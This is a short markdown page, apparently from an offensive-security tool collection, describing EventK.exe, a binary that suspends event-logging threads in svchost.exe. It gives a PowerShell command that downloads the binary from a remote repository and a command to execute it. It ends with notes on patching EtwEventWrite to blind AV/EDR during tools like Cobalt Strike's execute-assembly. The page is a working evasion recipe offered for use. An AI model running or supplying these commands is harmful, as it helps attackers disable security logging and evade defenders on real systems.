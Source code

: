 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Suspend thread in svchost.exe related to event logging (@SolomonSklash)|Administrator|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/eventK.exe" -OutFile "eventK.exe"
```

<br />

**Execute:**
```powershell
.\eventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html
